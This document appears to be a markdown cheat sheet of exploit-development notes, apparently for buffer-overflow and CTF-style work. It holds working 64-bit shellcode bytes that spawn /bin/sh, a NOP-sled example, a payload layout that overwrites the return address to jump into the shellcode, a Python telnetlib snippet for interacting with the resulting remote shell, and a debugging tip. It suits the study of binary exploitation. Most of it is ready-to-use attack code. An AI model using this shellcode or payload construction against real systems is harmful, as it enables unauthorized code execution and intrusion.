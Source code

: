 
### Bin/sh Shell {64 bit}

```
\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf
\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54
\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05

```

# Tricks/Tips

## NOP-Sleds

+ NOP-sledding is a technique used to help ensure that the exploit payload is reached in the overflowed ESP 
+ It acts as a padding between the EIP return address and the shellcode
+ NOP stands for No Operation which is a type of Opcode, `"\x90"`

#### Example Pad

```

sled = "\x90" * 32 

```

#### Payload Placment

```

payload = offset + EIP_return_addr + sled + shellcode

```

## Post Remote Payload Shell {Telnet Shell}

+ Used to catch a non-reverse shell after a local shell exploit (i.e `bin/sh`) in remote exploit scenarios

```
from telnetlib import Telnet

tn = Telnet()
tn.sock = s
tn.interact()
s.close()
```

## Breakpoints In Payload Code {Sigtrap}

+ To test if a exploit payload is working and jumping to the start of the shellcode a breakpoint or 'sigtrap' opcode can be prependded to the shellcode
+ This will cause an attatched debugger like GDB to pause at the start of the shellcode for analysis
